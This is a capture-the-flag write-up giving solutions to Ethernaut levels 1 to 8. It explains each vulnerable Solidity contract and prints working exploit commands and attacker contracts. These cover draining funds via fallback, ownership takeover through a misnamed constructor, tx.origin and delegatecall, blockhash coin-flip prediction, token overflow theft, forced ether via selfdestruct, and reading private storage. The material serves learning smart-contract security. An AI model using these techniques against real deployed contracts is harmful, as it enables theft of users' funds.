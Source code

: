 # ethernaut solutions

## 1. Fallback
From looking at the contract given to us in the first level we see that the final function ```receive()``` that is ```payable``` that is a fallback function that can be called to manipulate us to become the owner of the contract to withdraw all of the funds currently held in it.

We notice that we must first contribute some amount in order for the ```receive()``` function to give us the owner status we need to call ```withdraw()``` then we can drain the contract.

This can be done by running these three commands in our browser's console:
```
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
await contract.withdraw()
```
## 2. Fallout
Right away you can notice that the constructor is misspelled allowing any user to go in and calling ```Fal1out()``` which will give them ownership of the contract.

The following commands in the browser console will give you ownership of the contract:
```
await contract.owner() // shows that the owner of the contract currently is a NULL address
await contract.Fal1out({value: 1})
await contract.owner() // after the above command we now see that our address is the owner
await contract.collectAllocations()
```
## 3. Coinflip
Ok this was a little bit more difficult from the previous two since now we need to write code. I won't lie either I looked up some hints online to give me some type of idea how to go about this and it was much simpler once i read them. We need to import the CoinFlip contract given to us into a new solidity file so that it can be called at a later point after we submit our guess to the main ```flip()``` function in it. All we are really doing is taking the given function and copying it entirely but at the end when we check if the side is equal to our guess we just either submit our true or false answer if it is equal to the side and the opposite if not.

Below is my contract I wrote and deployed on Rinkeby that ended up working:
```// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

contract CoinFlipHack {
  CoinFlip target = CoinFlip(Instance ID);
  using SafeMath for uint256;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;


  function hackFlip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      target.flip(true);
    } else {
      target.flip(false);
    }
  }
}
```
## 4. Telephone
Another easy one the contract is set up so that we can change ourself to the owner of the contract simply by calling the ```changeOwner()``` function through a contract from our address. Use ```await contract.owner()``` to see the initial owner of contract and to check that our address is the owner afterwards.

Code written that calls the Telephone contract to allow us to take ownership:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneHack {
    Telephone target = Telephone(Instance ID);

    function telephoneHack(address _owner) public {
        target.changeOwner(_owner);
    }
}
```
## 5. Token
This is a basic level that shows that without using Openzeppelin's SafeMath that your contract is vulnerable to overflow attacks on unsigned variables.

This one command allows us to steal tokens from the contract:
```
await contract.transfer(Instance ID, 21)
```
## 6. Delegation
We are presented with two contracts in the given code one being the Delegate and the other the Delegation contract. We are given three hints to look into the ```delegatecall()``` function that is the Delegation contract, the fallback function it is used in, and method IDs.

Going off these hints when we deep dive into just what ```delegatecall``` does we find that it allows us to pass the ```msg.data``` along to the Delegate contract. This is where the method ID comes into play, using the command ```web3.eth.abi.encodeFunctionSignature({name: 'pwn', type: 'function', inputs: []})``` and set it equal to some arbitrary variable to be used later we can get the method ID of the function ```pwn()``` that can be passed as our data into the fallback function to allow us to execute it to set our address to be the owner. After all this we can simply do ```await contract.sendTransaction({data: 'pwn function method ID'})``` to allow us to become the contract owner.
## 7. Force
At first glance I was a bit confused on how to go about this but after looking into some hints all it requires is us to create a contract that calls ```selfdestruct()``` to our ethernaut instance address. Using a constructor to use ```selfdestruct``` on the target address is better than a function because we can specify a value when deploying through remix.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceAttack {
    constructor(address payable _victim) public payable {
        selfdestruct(_victim);
    }
}
```
## 8. Vault
From level 6 we can get a hint on how we are able to complete this level. We learned during that level that variables are stored in slots, we now know that even if the variable is set to private this doesn't change. Luckily web3.js has a great tool that allows us to retrieve data stored at these points by using ```await web3.eth.getStorageAt('instance ID', 1)``` we use 1 here because the password is the second variable stored. Then after this we can simply call ```await contract.unlock('that returned password from before')``` and now the vault will be unlocked.




